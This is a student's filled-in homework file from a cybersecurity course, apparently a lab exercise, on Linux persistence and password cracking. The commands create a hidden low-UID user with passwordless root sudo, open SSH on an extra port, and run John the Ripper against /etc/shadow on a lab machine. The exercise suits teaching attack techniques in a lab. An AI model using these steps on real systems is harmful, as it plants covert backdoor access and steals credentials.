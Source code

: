 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - sudo adduser sysd

2. Give your secret user a password: 
    - sudo passwd sysd

3. Give your secret user a system UID < 1000:
    - sudo usermod -u 900 sysd

4. Give your secret user the same GID:
   - sudo groupmod -g 900 sysd

5. Give your secret user full `sudo` access without the need for a password:
   -  sudo visudo
	sysd ALL=(ALL:ALL) NOPASSWD:ALL	

6. Test that `sudo` access works without your password:

    ```bash
    Your bash commands here
    ```

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ```Port 22
	Port 2222
    ```

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - systemctl restart ssh

2. Exit the `root` account:
    - logout

3. SSH to the target machine using your `sysd` account and port `2222`:
    - ssh sysd@192.168.6.105 -p 2222

4. Use `sudo` to switch to the root user:
    - sudo su -

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - ssh sysd@192.168.6.105 -p 2222

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - sudo su
	john /etc/shadow

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.
